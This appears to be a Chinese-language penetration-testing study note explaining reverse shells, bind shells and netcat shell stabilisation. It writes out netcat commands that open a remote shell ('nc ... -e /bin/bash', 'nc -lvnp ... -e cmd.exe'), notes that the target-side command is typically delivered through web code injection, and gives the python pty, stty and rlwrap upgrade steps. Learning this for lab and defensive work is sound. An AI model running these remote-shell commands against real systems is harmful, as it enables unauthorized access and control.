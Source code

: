 範例如下:
**<font color= #FF0000>Attacker</font>**
```shell=
sudo nc -lvnp 443 #attacker
```

**<font color=#FF0000>Target</font>**
```shell=
nc <LOCAL-IP> <PORT> -e /bin/bash #target
#通常Target端是在web端透過code injection來實現這行指令
```

**(左Attacker 右Target)**
![](https://i.imgur.com/jZXOhAY.png)

從圖中可以看出Reverse Shell是<font color=#FF0000>**先**</font>從攻擊機開始監聽並從目標機送出連線請求。


## Bind Shell
:::success
從attacker連到target `很少使用，但很有用`
:::
* Be opened up to the internet.
(代表可以連上用惡意程式打開的port並且達到RCE的效果)
* It may be prevented by firewalls.

範例如下:
**<font color=#FF0000> Target </font>**
```shell=
nc -lvnp <port> -e "cmd.exe"
```

**<font color=#FF0000> Attacker </font>**
```shell=
nc MACHINE_IP <port>
```

**(左Attacker 右Target`Target為Windows機`)**`這裡開啟監聽的指令並不局限於Windows`
![](https://i.imgur.com/pspQ3xu.png)

從圖中可以看出Bind Shell是<font color=#FF0000>**先**</font>從Target開始監聽後並從攻擊機連回目標機。

## Netcat shell stabalisation
1. Python
    > [color=#4cc6d3] `linux only` <br> Three stage process:<br>1. `python -c 'import pty;pty.spawn("/bin/bash")'`<br>透過python生成一個更好的bash shell，在某些目標上會需要指定python版本(將`python`替換為`python2`或是`python3`)，此時的shell雖然好一點了，但依舊無法透過`tab`來自動完成和上下鍵且`Ctrl + C`一樣會中斷shell。<br> 2.`export TERM=xterm`<br>這行指令會提供我們使用術語指令的權限，像是`clear`<br>3.`Ctrl + Z`<br>先把這個程式(這裡指shell)暫停後丟到後台，此時就會回到原本的terminal。<br> `stty raw -echo` <br> 這行指令會把當前terminal的echo功能關閉(功能包含tab autocompletes, the arrow keys, and Ctrl + C to kill process)<br> `fg` <br>最後使用fg指令把後臺的指令拿到前台來執行。<br> 這時接回來的shell就是可互動式的了。<br>範例如下:<br>![](https://i.imgur.com/fueD3uo.png)<br>可以看到上圖在執行完三個步驟後就能使用ssh(互動式)指令了。
    :::info
    需要注意的是如果shell停止運作的話(圖中netcat連過去得到的shell)，此時會回到自己的terminal，如果你嘗試輸入到terminal內的話會發現畫面上不會顯示任何內容，原因是因為在步驟3把echo給disable了，如果要解決這個問題只需要輸入<font color=#FF0000>`reset`</font>後按下enter即可。
    :::
2. rlwrap
    > [color=#49ed82]rlwrap是一個軟體可以讓我們在收到的shell中查看歷史指令, tab autocompletion, the arrow keys等，但如果想在shell中使用`Ctrl + C`還是需要額外步驟。<br> 在Kali中rlwrap不是預設安裝的，要使用必須先安裝。<br> `sudo apt install rlwrap`<br>使用方式如下:<br>`rlwrap nc -lvnp <port>`<br>透過rlwrap拿到的shell擁有更完善的功能，這技巧對Windows shells非常有用，因為Windows shells很難穩定(stabilise)，如果是Linux target的話可以進一步達到completely stabilise，只需重複上一個技巧的步驟三即可。
